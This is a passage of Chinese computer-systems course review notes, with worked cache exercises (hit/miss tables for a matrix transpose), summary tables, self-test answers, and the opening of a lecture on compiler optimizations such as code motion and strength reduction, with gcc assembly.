6.33对于作业 6.30 中的高速缓存，列出所有会在组 2 中命中的 8 个内存地址（以十六进制表示）。
组 2 中只有前两行有效：标记 BC 和 B6（第 2、3 行的有效位为 0，标记 00、74 不算）。一个地址在组 2 中命中，要求它的组索引是 010、标记等于 BC 或 B6，块偏移 00～11 任意。地址 = 标记 × 25 + 组索引 × 22 + 块偏移：
- 标记 0xBC：0xBC × 32 + 2 × 4 = 0x1788，所以是 0x1788、0x1789、0x178A、0x178B；
- 标记 0xB6：0xB6 × 32 + 2 × 4 = 0x16C8，所以是 0x16C8、0x16C9、0x16CA、0x16CB。
共 8 个地址。以 0x1788 为例核对：1 0111 1000 1000，标记 1011 1100 = 0xBC，组索引 010，块偏移 00。
6.34 4 × 4 矩阵转置（32 字节缓存）#
6.34考虑下面的矩阵转置函数：typedef int array[4][4]; void transpose2(array dst, array src) { int i, j; for (i = 0; i < 4; i++) for (j = 0; j < 4; j++) dst[j][i] = src[i][j]; } 假设这段代码运行在一台具有如下属性的机器上：sizeof(int) == 4；数组 src 从地址 0 开始，而数组 dst 从地址 64 开始（十进制）；只有一个 L1 数据高速缓存，它是直接映射、直写、写分配的，块大小为 16 字节；这个高速缓存总共有 32 个数据字节，初始为空；对 src 和 dst 数组的访问分别是读和写不命中的唯一来源。对每个 row 和 col，指明对 src[row][col] 和 dst[row][col] 的访问是命中（h）还是不命中（m）。例如，读 src[0][0] 会不命中，而写 dst[0][0] 也会不命中。
按 13.13 节的步骤，先算参数：B = 16，S = 32 / 16 = 2，每组 1 行。一个块装 4 个 int，恰好是矩阵的一行。
再看地址与组号：src 的第 r 行占地址 16r～16r + 15，块号 r，组号 r mod 2；dst 的第 r 行从 64 + 16r 开始，块号 4 + r，组号也是 r mod 2。所以 src 和 dst 的同号行映射到同一组：第 0、2 行在组 0，第 1、3 行在组 1。这就是 13.7 节常见问题所说的情况：两个数组的起始地址相差 64 字节，是缓存大小 32 字节的整数倍。
然后逐次模拟。访问顺序是：读 src[i][j]，写 dst[j][i]（写分配：写不命中时把块装入缓存）。以 i = 0 为例：读 src[0][0]，组 0 为空，不命中，装入 src 第 0 行；写 dst[0][0]，dst 第 0 行也在组 0，不命中，驱逐 src 第 0 行；读 src[0][1]，src 第 0 行刚被驱逐，不命中，又驱逐 dst 第 0 行；写 dst[1][0]，dst 第 1 行在组 1，不命中；读 src[0][2]，src 第 0 行还在组 0，命中；写 dst[2][0]，dst 第 2 行在组 0，不命中，驱逐 src 第 0 行；读 src[0][3]，不命中；写 dst[3][0]，组 1，不命中。后面各行依此类推，模拟器给出的完整结果见 表 18。
表 18 作业 6.34 的答案（32 字节直接映射缓存；模拟器核对）
| dst | 列 0 | 列 1 | 列 2 | 列 3 | src | 列 0 | 列 1 | 列 2 | 列 3 | |
|---|---|---|---|---|---|---|---|---|---|---|
| 行 0 | m | m | m | m | 行 0 | m | m | h | m | |
| 行 1 | m | m | m | m | 行 1 | m | h | m | h | |
| 行 2 | m | m | m | m | 行 2 | m | m | h | m | |
| 行 3 | m | m | m | m | 行 3 | m | h | m | h |
dst 的 16 次写全部不命中，src 的 16 次读有 6 次命中，32 次访问共 26 次不命中。规律是：src 第 i 行与 dst 中“行号与 i 奇偶相同”的行争同一组，写 dst[j][i] 时只要 j 与 i 奇偶相同就会把 src 第 i 行赶走；src 偶数行在 j = 2 时命中，奇数行在 j = 1、3 时命中，正是紧接在“写到另一组的 dst 行”之后的那几次读。
6.35 同一转置（128 字节缓存）#
6.35对于一个总大小为 128 数据字节的高速缓存，重复练习题 6.34。
缓存变为 128 字节，S = 128 / 16 = 8 组。src 第 r 行在块 r、组 r；dst 第 r 行在块 4 + r、组 4 + r。两个矩阵的 8 行正好各占一组，没有任何冲突，整个 src 和 dst（共 128 字节）都放得下。于是每一行（每个块）只在第一次被访问时冷不命中，以后全部命中（表 19）：src 每行的第一个元素 src[r][0] 不命中（i = r 时第一次读该行），dst 每行的第一次写发生在 i = 0 时，即 dst[r][0] 不命中。
表 19 作业 6.35 的答案（128 字节直接映射缓存；模拟器核对）
| dst | 列 0 | 列 1 | 列 2 | 列 3 | src | 列 0 | 列 1 | 列 2 | 列 3 | |
|---|---|---|---|---|---|---|---|---|---|---|
| 行 0 | m | h | h | h | 行 0 | m | h | h | h | |
| 行 1 | m | h | h | h | 行 1 | m | h | h | h | |
| 行 2 | m | h | h | h | 行 2 | m | h | h | h | |
| 行 3 | m | h | h | h | 行 3 | m | h | h | h |
32 次访问只有 8 次不命中，全部是冷不命中（每个块一次）。与 6.34 对比：6.34 的 26 次不命中中，8 次是冷不命中；其余 18 次按 13.1 节的方法判别，12 次是容量不命中、6 次是冲突不命中。32 字节的缓存只有 2 行，而转置的一轮内层循环要轮流用到 src 的一行和 dst 的 4 行，即使换成同样 2 行的全相联缓存也装不下，这部分不命中提高相联度也无济于事；剩下的 6 次则是同容量的全相联缓存能命中、直接映射却因 src 与 dst 同号行争同一组而不命中的冲突不命中。缓存增大到 8 行以后，两个矩阵的 8 个块能同时放下，并且映射到不同的组，容量不命中和冲突不命中同时消失。这道题与 13.13 节例 1、例 2 的道理相同：地址相差缓存大小整数倍的数组之间会互相驱逐，缓存行数太少时还会叠加容量不命中——例 2 的表 10 正好展示了同样是 100% 不命中、原因却可以不同。
第四部分 复习速查#
4.1 高速缓存一页纸#
表 20 缓存的组织与参数
| 项目 | 公式或规则 | 说明与例子 |
|---|---|---|
| 四个参数 | S = 2s 组，每组 E 行，每块 B = 2b 字节，地址 m 位 | 容量 C = S × E × B（不含有效位和标记） |
| 地址划分 | t 位标记 | s 位组索引 | b 位块偏移，t = m − s − b | 32 KB、8 路、64 B、47 位：S = 64，s = 6，b = 6，t = 35 |
| 块号与组号 | 块号 = ⌊地址 / B⌋；组号 = 块号 mod S；标记 = 块号 / S | 地址相差 S × B 的整数倍的块落在同一组 |
| 三种组织 | E = 1 直接映射；1 < E < C/B 组相联；S = 1 全相联 | 相联度越高冲突越少，但命中时间、面积、功耗越大 |
| 2 的幂 | B、S 取 2 的幂（截取地址位即可）；E 可以任意 | 48 KB = 64 组 × 12 路 × 64 B；大 L3 用哈希选切片 |
| 一次读 | 选组 → 组内并行比较有效位与标记 → 按偏移取数据 | 不命中：取来整块，有空行用空行，否则按 LRU 等替换 |
| 写命中 | 直写：立即写下一层；写回：只改缓存，置脏位，驱逐时写回整块 | 写回减少总线流量 |
| 写不命中 | 写分配：先取块再写；非写分配：直接写下一层 | 常见组合：写回 + 写分配；直写 + 非写分配 |
| 中间位索引 | 相邻块轮流落在不同组 | 高位索引使连续的块挤在同一组 |
| 性能指标 | 不命中率、命中时间、不命中处罚 | L1 约 4 周期；主存处罚 50～200 周期 |
| 平均访问时间 | 命中时间 + 不命中率 × 不命中处罚；多级：TL1 + mL1(TL2 + mL2 Tmem) | 1 + 0.03 × 100 = 4；1 + 0.01 × 100 = 2 |
| 三类不命中 | 第一次访问：冷；同容量全相联也不命中：容量；否则：冲突 | 提高相联度只减少冲突不命中 |
表 21 程序性能部分的结论
| 项目 | 结论 |
|---|---|
| 存储器山 | 先预热再计时；工作集大小决定落在 L1/L2/L3/主存哪道山脊（时间局部性），步长决定斜坡上的位置（空间局部性，不命中率约 s/8）；步长 1 有预取造成的高原 |
| 矩阵乘法六种次序 | 只看内层循环：按行 0.25、按列 1.0、固定 0（块 32 B）。ijk/jik 1.25；kij/ikj 0.5（最快）；jki/kji 2.0（最慢） |
| 分块 | 不分块 (9/8)n³；分块 n³/(4B)（块 = 8 个 double）；条件 3B² < C；在此限制下 B 尽量大 |
| 写缓存友好的代码 | 关注内层循环；步长 1；数据读进来后多用几次；注意数组之间的冲突，必要时填充 |
| 做题五步 | 参数 → 地址、块号、组号 → 逐次模拟或找规律 → 分三类 → 汇总（写也是访问） |
4.2 易错点清单#
表 22 第 13 讲易错点清单
| # | 易错点 | 正确理解 |
|---|---|---|
| 1 | 标记就是块号 | 标记是块号的高 t 位（块号 / S）；块号的低 s 位是组索引 |
| 2 | 只要标记相等就命中 | 还要有效位为 1（作业 6.31 组 6 有两行标记都是 38，只有一行有效） |
| 3 | 组索引取地址的最高位 | 取中间 s 位，块偏移在最低位，标记在最高位 |
| 4 | 容量 C 包括有效位和标记 | C = S × E × B 只算数据字节 |
| 5 | S、E、B 都必须是 2 的幂 | B、S 通常是；E 可以是 12、20 等任意值 |
| 6 | 相联度越高，不命中一定越少 | 容量不变时组数减少，可能更坏（13.13 节例 1：2 路比直接映射更差） |
| 7 | 提高相联度能消除容量不命中 | 只能减少冲突不命中；容量不命中要靠增大缓存或缩小工作集 |
| 8 | 写回策略每次写命中都访问主存 | 写回只改缓存并置脏位，驱逐脏行时才整块写回；直写才每次都写 |
| 9 | 写不命中时一定把块装入缓存 | 写分配才装入；非写分配直接写下一层 |
| 10 | 不命中率 3% 和 1% 差别不大 | 平均访问时间可以相差一倍（课件 p.31） |
| 11 | 地址递增就一定有好的空间局部性 | 步长 ≥ 块大小时每次都换块（13.13 节例 3(a)） |
| 12 | 存储器山的测量不需要预热 | 先调用一次 test 把工作集装进缓存，否则测到的是冷不命中的速度 |
| 13 | 矩阵乘法中读写次数少的次序最快 | kij 多一次写仍最快，决定性能的是内层循环的访问模式 |
| 14 | 分块的 B 越大越好 | 必须满足 3B² < C，B 太大时小块装不下，分块失效 |
| 15 | 课件 p.36 的 test 可以直接用 | sum 未初始化，应为 long i, sum = 0; |
4.3 中英术语对照#
表 23 第 13 讲中英术语对照
| English | 中文 | English | 中文 |
|---|---|---|---|
| cache memory | 高速缓存存储器 | cache line | 缓存行 |
| set | 组 | block | 块 |
| valid bit | 有效位 | tag | 标记 |
| set index | 组索引 | block offset | 块偏移 |
| direct-mapped | 直接映射 | set associative | 组相联 |
| fully associative | 全相联 | replacement policy | 替换策略 |
| least recently used (LRU) | 最近最少使用 | dirty bit | 脏位 |
| write-through | 直写 | write-back | 写回 |
| write-allocate | 写分配 | no-write-allocate | 非写分配 |
| miss rate | 不命中率 | hit time | 命中时间 |
| miss penalty | 不命中处罚 | AMAT | 平均存储器访问时间 |
| cold miss | 冷不命中 | conflict miss | 冲突不命中 |
| capacity miss | 容量不命中 | working set | 工作集 |
| read throughput | 读吞吐量 | memory mountain | 存储器山 |
| stride | 步长 | prefetching | 预取 |
| blocking | 分块 | unified cache | 统一缓存 |
第五部分 自测题#
以下题目为新编，所有命中与不命中都由按“组相联 + LRU”编写的模拟器逐次统计，数值由脚本计算核对。答案在本部分末尾。
1．一个系统的地址为 32 位，缓存容量 16 KB、4 路组相联、块大小 32 字节。（a）求 S、s、b、t。（b）地址 0x12345678 的块偏移、组索引、标记各是多少（十六进制）？
2．某处理器的 L1 数据缓存是 48 KB、12 路组相联、块大小 64 字节，地址按 48 位计。（a）求组数 S 以及 s、b、t。（b）12 不是 2 的幂，这会不会给“选组”带来麻烦？为什么？
3．沿用课件 p.13 的直接映射玩具缓存（4 位地址，t = 1、s = 2、b = 1），初始为空，依次读地址 2、3、10、2、7、11、3、10。逐次写出命中（H）或不命中（M），并给出每次不命中的类型。
4．把第 3 题的缓存换成课件 p.17 的 2 路组相联玩具缓存（t = 2、s = 1、b = 1，LRU），访问序列不变。逐次写出结果和不命中类型，并与第 3 题比较。
5．直接映射缓存，2 组，块大小 8 字节，初始为空。依次执行：写 0、写 4、读 16、写 0、写 20、读 4（每次访问 4 字节，都在一个块内）。分别按“写回 + 写分配”和“直写 + 非写分配”，写出每次访问的命中情况，并统计对主存的写次数。
6．某系统 L1 命中时间 4 个周期、不命中率 4%；L2 命中时间 14 个周期、局部不命中率 25%；主存访问时间 180 个周期。求平均存储器访问时间。如果没有 L2，平均访问时间是多少？
7．下面的代码在一块容量 64 字节、块大小 16 字节的缓存上运行（sizeof(short) = 2，a 从地址 0 开始，b 紧接其后从地址 64 开始，开始时缓存为空，sum 在寄存器中）。分别求直接映射、2 路组相联（LRU）时对 a、b 访问的不命中率。
short a[32], b[32];
for (int i = 0; i < 32; i++)
sum += a[i] * b[i];8．按课件 p.40 的假设（块 32 字节，n 很大，缓存很小），下面的内层循环每次迭代平均有几次不命中？它属于六种次序中的哪一组？
for (j = 0; j < n; j++)
for (k = 0; k < n; k++) {
r = b[k][j];
for (i = 0; i < n; i++)
c[i][j] += a[i][k] * r;
}9．用课件 p.52–57 的模型分析 n = 512 的 double 矩阵乘法，缓存块为 8 个 double，缓存容量 32 KB（即 4096 个 double）。（a）不分块时总不命中次数约为多少？（b）分块时 B 取 2 的幂，最大能取多少？此时总不命中次数约为多少？是不分块时的几分之一？
10．在一台 L1d 为 48 KB、块大小 64 字节的机器上测存储器山。（a）工作集 32 KB、步长 1 和工作集 512 MB、步长 8，哪个读吞吐量高？分别对应山上的什么位置？（b）为什么工作集为 64 KB、步长为 12（96 字节）时，吞吐量可能回升到 L1 的水平？
自测题答案#
1．（a）B = 32，b = 5；S = 16384 / (4 × 32) = 128，s = 7；t = 32 − 7 − 5 = 20。（b）块偏移 = 低 5 位 = 0x18；组索引 = 接下来 7 位 = (0x12345678 >> 5) & 0x7F = 0x33；标记 = 0x12345678 >> 12 = 0x12345。
2．（a）S = 49152 / (12 × 64) = 64，s = 6，b = 6，t = 48 − 6 − 6 = 36。（b）不会。选组只用地址中间的 s = 6 位，组数 64 仍是 2 的幂；E = 12 只决定一组内有几个标记比较器，不参与地址划分（13.5 节）。
3．块号 = 地址 / 2，组号 = 块号 mod 4：2、3 在块 1（组 1），10、11 在块 5（组 1），7 在块 3（组 3）。结果：2 M（冷），3 H，10 M（冷，驱逐块 1），2 M（冲突），7 M（冷），11 M（冲突），3 M（冲突），10 M（冲突）。8 次只命中 1 次；块 1 与块 5 争组 1，交替访问时每次都不命中。
4．此时组号 = 块号 mod 2，块 1、5、3 都在组 1。结果：2 M（冷），3 H，10 M（冷，组 1 还有空行），2 H，7 M（冷，组 1 已满，按 LRU 驱逐块 5），11 M（冲突，驱逐块 1），3 M（冲突，驱逐块 3），10 H。8 次命中 3 次：块 1 与块 5 可以共存，第 4 次访问变成命中；但三个块（1、5、3）都映射到组 1，组内只有 2 行，后半段仍有冲突。
5．块号 = 地址 / 8，组号 = 块号 mod 2：地址 0、4 在块 0（组 0），16、20 在块 2（组 0），全都争组 0。写回 + 写分配：写 0 M（装入块 0，置脏），写 4 H，读 16 M（驱逐脏块 0，写回 1 次），写 0 M（装入块 0，置脏；块 2 是干净的，不写回），写 20 M（驱逐脏块 0，写回 2 次；装入块 2，置脏），读 4 M（驱逐脏块 2，写回 3 次）。对主存共写 3 次（每次整块 8 字节）。直写 + 非写分配：写 0 M（直接写主存，不装入），写 4 M（同上），读 16 M（装入块 2），写 0 M（组 0 中是块 2，直接写主存），写 20 H（块 2 在缓存中，同时写主存），读 4 M（装入块 0）。4 次写操作每次都直接写主存，共 4 次（每次 4 字节）。写回策略写主存的次数虽然只少 1 次，但每次写的是整块；写的次数越多、越集中在同一块上，写回的优势越明显（13.6 节）。
6．AMAT = 4 + 0.04 × (14 + 0.25 × 180) = 4 + 0.04 × 59 = 6.36 个周期。没有 L2 时 = 4 + 0.04 × 180 = 11.2 个周期。
7．每块装 8 个 short。a 占块 0～3，b 占块 4～7。直接映射（4 组）：a 的块 k 与 b 的块 k + 4 都在组 k，a[i]、b[i] 交替访问时互相驱逐，64 次访问全部不命中，100%（8 次冷、56 次冲突）。2 路组相联（2 组 × 2 行）：a 的块 k 与 b 的块 k + 4 都在组 k mod 2，但组内有 2 行，可以共存；每对块只在第一次访问时各不命中一次，64 次访问 8 次不命中，12.5%，全是冷不命中。（与 13.13 节例 1 不同，这里每轮只同时用到两个块，2 路恰好装得下。）
8．内层循环固定 j、k，i 变化：A 的第 k 列按列访问（1.0），B 的元素固定在寄存器 r 中（0），C 的第 j 列按列访问（1.0），每次迭代 2.0 次不命中。外层次序是 j、k、i，属于 jki 组（与 kji 同组），是最慢的一组；把它改成 kij 或 ikj，可以降到 0.5。
9．（a）(9/8)n³ = 9/8 × 512³ = 9/8 × 134 217 728 ≈ 1.51 × 108 次。（b）要求 3B² < 4096，即 B² < 1365.3，B < 36.9；取 2 的幂，最大 B = 32（3 × 1024 = 3072 < 4096）。分块后 n³/(4B) = 134 217 728 / 128 = 1 048 576 次，约为不分块的 1/144（4.5B = 144）。
10．（a）工作集 32 KB、步长 1 的吞吐量高得多：32 KB 小于 L1 的 48 KB，数组全在 L1 中，位于山顶的 L1 山脊上，且步长 1 每块的数据全部用上。512 MB、步长 8 位于主存山脊的斜坡底部：工作集远超所有缓存，步长 8 个 long = 64 字节等于块大小，每次访问都不命中。默认环境的实测分别约为 49 GB/s 和 1.9 GB/s，相差约 25 倍。（b）步长为 12 个 long 时，程序只访问 64 KB / 96 B ≈ 680 个元素，各在不同的块中，真正用到的块只有约 680 个，少于 L1 的 768 行；实际工作集（被访问的块的集合）已经装得进 L1，所以吞吐量回到 L1 的水平。
—— 第 13 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 14 讲
程序优化（Program Optimization）
如何使用本讲义#
前面十几讲回答的是“程序怎样在机器上运行”，本讲回答“怎样让程序运行得更快”。课件分成四部分。第一部分是任何编译器、任何机器上都值得做的优化（14.1–14.5 节）：代码移动、强度削减、共享公共子表达式，以及把这三种手法串起来的冒泡排序实例。第二部分是妨碍编译器优化的两个因素（14.6–14.8 节）：过程调用和内存别名——编译器必须保证优化后的程序在任何情况下行为不变，这两种情况让它“不敢”优化，只能由程序员动手。第三部分是利用指令级并行（14.9–14.17 节）：先用 CPE（每元素周期数）度量一段循环的性能，从 combine1 一步步优化到 combine4；再看现代超标量乱序处理器的结构，理解为什么 combine4 被“延迟界限”卡住；然后用循环展开、重新结合、多个累积变量把性能推到“吞吐量界限”，最后用 SIMD 向量指令再提高几倍。第四部分是条件分支（14.18 节）：分支预测失败要付出多大代价，怎样写出编译器能翻译成条件传送的代码。讲完课件之后，14.20 节是一个综合专题：在第 11 讲的 Y86-64 流水线 PIPE 上，从源程序、汇编一直改到处理器的 HCL，把一个求绝对值之和的函数一步步优化，所有周期数都在逐块转写 pipe-full.hcl 的模拟器上实测。
本讲的数值都由程序核对过。研讨题要求“自己设计代码示例并编译成汇编”的地方，讲义给出了新设计的例子和 gcc 13 实际生成的汇编；课件和教材中的 CPE 是 2013 年前后的 Intel Haswell 处理器测得的，讲义在默认环境的新处理器上把同样的程序全部重测了一遍，两组数据并列给出。两组数据的绝对值不同，但规律完全一致——这正好说明，本讲要学的是分析方法（找关键路径、算延迟界限与吞吐量界限），而不是某台机器上的具体数字。课件有几处笔误，用橙色方框指出。
表 1 第 14 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| 概述（p.3–4） | 常数因子也重要；优化编译器能做什么、不能做什么 | 14.1 |
| 代码移动（p.6–7） | 把每次结果都相同的计算移出循环 | 14.2 |
| 强度削减（p.8） | 用移位、加法代替乘除；把循环里的乘积序列改成累加 | 14.3 |
| 公共子表达式（p.9） | 重复计算的部分只算一次 | 14.4 |
| 冒泡排序实例（p.10–18） | 三种手法怎样把内层循环从 25 条指令减到 9 条 | 14.5 |
| 优化编译器的局限（p.20） | 编译器为什么必须保守 | 14.6 |
| 过程调用（p.21–27） | lower1 为什么是平方复杂度；编译器为什么不把 strlen 移出循环 | 14.7 |
| 内存别名（p.28–31） | sum_rows1 为什么每次都读写 b[i] | 14.8 |
| 基准程序与 CPE（p.34–37） | 向量抽象数据类型；CPE 的定义与测量 | 14.9 |
| combine1 到 combine4（p.37–39） | 四步基本优化各自的效果 | 14.10 |
| 现代处理器（p.40–43） | 超标量、乱序执行、功能单元的延迟与发射时间 | 14.11 |
| 延迟界限（p.44–45） | 数据流图与关键路径 | 14.12 |
| 循环展开 2×1（p.46–47） | 减少循环开销，但关键路径不变 | 14.13 |
| 重新结合 2×1a（p.48–50） | 改变结合顺序，缩短关键路径 | 14.14 |
| 多个累积变量 2×2（p.51–53） | 两条独立的链交错执行 | 14.15 |
| 展开与累积的一般规律（p.54–57） | 吞吐量界限；k ≥ C × L；寄存器溢出 | 14.16 |
| SIMD（p.58–60） | 一条指令处理 4 个或 8 个数据 | 14.17 |
| 分支（p.61–68） | 分支预测、预测失败的代价、条件传送 | 14.18 |
| 小结（p.69） | 获得高性能的原则 | 14.19 |
| 专题（课件之外） | 在 Y86-64 PIPE 上从源程序到 HCL 优化一个函数 | 14.20 |
说明：课件页码与小班研讨题的对应
2025 版和 2026 版课件都是 69 页，除封面外逐页相同，所以研讨题中的页码就是本讲义引用的页码，无需换算。课件 p.2、p.5、p.19、p.32 是四次重复出现的目录页（“Today”），讲义不单独讲解。研讨题 1 对应第一、二部分（p.6–31），研讨题 2 对应第三、四部分（p.34–68）。第二部分逐题解答时，前面小节已经完整讲过的推导只给要点并注明小节号。
第一部分 第 14 讲知识点：程序优化#
14.1 性能的现实与优化编译器的能力（课件 p.3–4）#
算法课教我们用渐近复杂度衡量程序：O(n log n) 胜过 O(n²)。课件 p.3 提醒，常数因子同样重要：同一个算法，写法不同，运行时间常常相差 10 倍以上。本讲后面的 combine 系列就是例子：对向量求和，默认环境上最慢的写法（combine1，不开优化）每个元素要 8.5 个时钟周期，最快的标量写法只要 0.34 个周期，相差 25 倍；再用上 SIMD 向量指令，可以降到 0.06 个周期，相差 140 倍。要获得这样的提升，必须在多个层次上同时着手——算法、数据表示、过程、循环——并且了解程序是怎样被编译和执行的、现代处理器和存储系统是怎样工作的、怎样测量性能和找出瓶颈，同时又不能为了性能把代码的模块性和通用性破坏殆尽。
这里的主角之一是优化编译器（课件 p.4）。它的工作是把程序高效地映射到机器上：寄存器分配（把常用的变量放在寄存器里）、代码选择与排序（选择合适的指令，并调整它们的顺序，即指令调度）、消除死代码（删掉结果从来不会被用到的计算），以及消除各种小的低效之处。但编译器通常不会改进渐近效率：选择好的算法是程序员的责任，大 O 上的节省往往比常数因子更重要。编译器还有它跨不过去的妨碍优化的因素（optimization blockers）：潜在的内存别名和潜在的过程副作用。本讲的第一、二部分先看编译器能做什么、不能做什么；第三部分再看程序员怎样配合处理器的结构写出更快的代码。
gcc 用 -O 选项控制优化级别：-O0（默认，几乎不优化，每个变量都放在栈上）、-Og（适合调试的轻度优化）、-O1、-O2、-O3（越来越激进）。教材和课件的测量大多用 -O1，本讲义的实验也以 -O1 为主，需要时再对比其他级别。
14.2 代码移动（课件 p.6–7）#
课件 p.6 把三种“不论用什么处理器、什么编译器都值得做”的优化归为一类，第一种是代码移动（code motion）：如果一个计算每次都得到相同的结果，就减少它被执行的次数，最常见的做法是把它移到循环外面，只算一次。这也叫预计算（precomputation）。课件的例子是把矩阵 a 的第 i 行设置成向量 b：
void set_row(double *a, double *b, long i, long n)
{
long j;
for (j = 0; j < n; j++)
a[n*i+j] = b[j];
}循环体每次都计算 n*i，而 n 和 i 在循环中都不变。把它移出循环，就成了 long ni = n*i; for (j = 0; j < n; j++) a[ni+j] = b[j];。课件 p.7 说明 gcc 在 -O1 下会自己做这件事，而且做得更彻底：它不但把 n*i 移出循环，还把 a + ni 也算好，循环里只需要一个指针 rowp。默认环境的 gcc 13 用 -O1 编译这段代码，生成的汇编与课件逐条相同（只是返回指令写成 ret 而不是 rep ret，比较指令的操作数顺序写成 cmpq %rax, %rcx）：
set_row: # a 在 %rdi，b 在 %rsi，i 在 %rdx，n 在 %rcx
testq %rcx, %rcx # n <= 0 时直接返回
jle .L1
imulq %rcx, %rdx # ni = n*i，只算一次
leaq (%rdi,%rdx,8), %rdx # rowp = a + ni*8，只算一次
movl $0, %eax # j = 0
.L3:
movsd (%rsi,%rax,8), %xmm0 # t = b[j]
movsd %xmm0, (%rdx,%rax,8) # rowp[j] = t
addq $1, %rax # j++
cmpq %rax, %rcx
jne .L3
.L1:
ret循环体只剩 5 条指令，乘法在循环外只执行一次。代码移动的前提是编译器能确定这个计算每次的结果都相同；14.7 节会看到，当循环条件里是一次函数调用时，这个前提往往无法确定，编译器就不敢移动。研讨题 1（1）给出了另一个自行设计的例子，以及一个编译器“不敢”外提的反例。
14.3 强度削减（课件 p.8）#
第二种是强度削减（reduction in strength）：用代价低的操作代替代价高的操作，典型的是用移位和加法代替乘法和除法，例如 16*x 换成 x << 4。它是否划算取决于机器：在课件提到的 Intel Nehalem 上，整数乘法要 3 个周期，而移位和加法只要 1 个周期；默认环境的处理器上整数乘法同样是 3 个周期（14.11 节的表 4），除法则要十几个周期。
强度削减更重要的用法是识别乘积序列：如果循环里每次都计算 n*i，而 i 每次加 1，那么 n*i 每次恰好增加 n，可以用一个变量累加，把乘法变成加法：
/* 削减前 */ /* 削减后 */
for (i = 0; i < n; i++) { int ni = 0;
int ni = n*i; for (i = 0; i < n; i++) {
for (j = 0; j < n; j++) for (j = 0; j < n; j++)
a[ni + j] = b[j]; a[ni + j] = b[j];
} ni += n;
}在默认环境上实测（研讨题 1（2）给出了完整的汇编）：gcc 对乘以或除以常数的强度削减即使在 -O0 下也会做——16*x 编成 salq $4，7*x 编成 leaq (,%rdi,8) 再减 x，无符号数除以 8 编成 shrq $3，无符号数除以 10 编成乘以“魔数”0xCCCCCCCCCCCCCCCD 再右移；对循环中的乘积序列，-O1 以上会把它改成指针或下标的累加，上面左边的代码在 -O1 下内层和外层循环里都没有乘法指令，外层每轮只是给行指针加上 4n 字节。所以对这两类强度削减，程序员一般不必手工去做；值得手工做的是编译器看不出来的情况，例如 14.5 节冒泡排序中把下标 j 整个换成字节偏移。
14.4 共享公共子表达式（课件 p.9）#
第三种是共享公共子表达式（sharing of common subexpressions）：一个表达式的某部分在多处重复计算，就只算一次，结果重复使用。课件的例子是求网格中 (i, j) 上下左右四个邻居的和：
/* Sum neighbors of i,j */ long inj = i*n + j;
up = val[(i-1)*n + j ]; up = val[inj - n];
down = val[(i+1)*n + j ]; down = val[inj + n];
left = val[i*n + j-1]; left = val[inj - 1];
right = val[i*n + j+1]; right = val[inj + 1];
sum = up + down + left + right; sum = up + down + left + right;左边需要 3 次乘法：i*n、(i–1)*n、(i+1)*n；右边注意到四个下标都可以由 i*n + j 加减常数得到，只需要 1 次乘法。课件 p.9 下方的汇编说明 gcc -O1 能完成这种共享。不过编译器看到的是表达式的字面形式，它能发现 i*n 出现了两次，却未必能想到 (i–1)*n 可以写成 i*n – n，所以在复杂的下标表达式上，手工整理往往还能省掉更多。研讨题 1（3）用一个三维网格的例子实测了这一点：6 个邻居的下标在 -O0 下需要 12 次乘法，-O1 自动共享后剩 4 次，手工整理后只要 3 次。
★ 三种“通用优化”的共同前提
代码移动、强度削减、共享公共子表达式都只改变计算的方式，不改变计算的结果。编译器能放心地做它们，前提是能证明结果不变：被移出循环的表达式每次的值都相同，被共享的子表达式两次求值之间没有被改变。只涉及局部变量和算术运算时，这很容易证明；一旦涉及函数调用或通过指针访问内存，证明就可能做不出来，编译器只好放弃——这就是 14.6–14.8 节的“妨碍优化的因素”。
14.5 实例：冒泡排序伪代码的逐步优化（课件 p.10–18）#
课件用一个冒泡排序把上面三种手法串起来。数组 A 分配在静态存储区，每个元素 4 字节，元素编号为 1～n，所以 A[j] 的地址是 &A + 4*(j–1)。源程序是：
for (i = n-1; i >= 1; i--) {
for (j = 1; j <= i; j++)
if (A[j] > A[j+1]) {
temp = A[j];
A[j] = A[j+1];
A[j+1] = temp;
}
}优化从逐句翻译开始，这是第一步（课件 p.11）：每个数组下标都按“地址 = 4 × (下标 – 1)”翻译成三地址形式的伪代码，每个临时变量 t 只赋值一次，得到：
i := n-1 t8 := j-1
L5: if i<1 goto L1 t9 := 4*t8
j := 1 temp := A[t9] // temp := A[j]
L4: if j>i goto L2 t10 := j+1
t1 := j-1 t11 := t10-1
t2 := 4*t1 t12 := 4*t11
t3 := A[t2] // A[j] t13 := A[t12] // A[j+1]
t4 := j+1 t14 := j-1
t5 := t4-1 t15 := 4*t14
t6 := 4*t5 A[t15] := t13 // A[j] := A[j+1]
t7 := A[t6] // A[j+1] t16 := j+1
if t3<=t7 goto L3 t17 := t16-1
t18 := 4*t17
A[t18] := temp // A[j+1] := temp
L3: j := j+1
goto L4
L2: i := i-1
goto L5
L1:数一数：内层循环（从 L4 到 goto L4）有 25 条，外层循环体（从 L5 到 goto L5）有 29 条。A[j] 和 A[j+1] 的地址被反复计算了好几遍。
第二步就针对这一点，消除地址计算中的冗余（课件 p.12–13），用的正是 14.4 节的共享公共子表达式。t4 := j+1、t5 := t4–1 的结果就是 j，所以 t6 = 4*j；同理 t10–t12 和 t16–t18 算出的也是 4*j，t8–t9 和 t14–t15 算出的就是 t1–t2 的 4*(j–1)。删掉重复的计算，A[j] 的地址统一用 t2（课件这一步暂时保留了 t8、t9，用 t9 表示同一个地址），A[j+1] 的地址统一用 t6 或 t12 := 4*j，内层循环剩 16 条，外层 20 条。
地址统一之后，第三步又发现读内存也有重复（课件 p.14–15）：交换时的 temp := A[t9] 读的就是前面 t3 := A[t2] 读过的 A[j]，t13 := A[t12] 读的就是 t7 读过的 A[j+1]，并且这两次读之间没有写过 A。所以交换可以直接写成 A[t2] := t7、A[t6] := t3，temp、t8、t9、t12、t13 全部删掉。内层循环剩 11 条，外层 15 条：
i := n-1 A[t2] := t7 // A[j] := A[j+1]
L5: if i<1 goto L1 A[t6] := t3 // A[j+1] := old_A[j]
j := 1 L3: j := j+1
L4: if j>i goto L2 goto L4
t1 := j-1 L2: i := i-1
t2 := 4*t1 goto L5
t3 := A[t2] // old_A[j] L1:
t6 := 4*j
t7 := A[t6] // A[j+1]
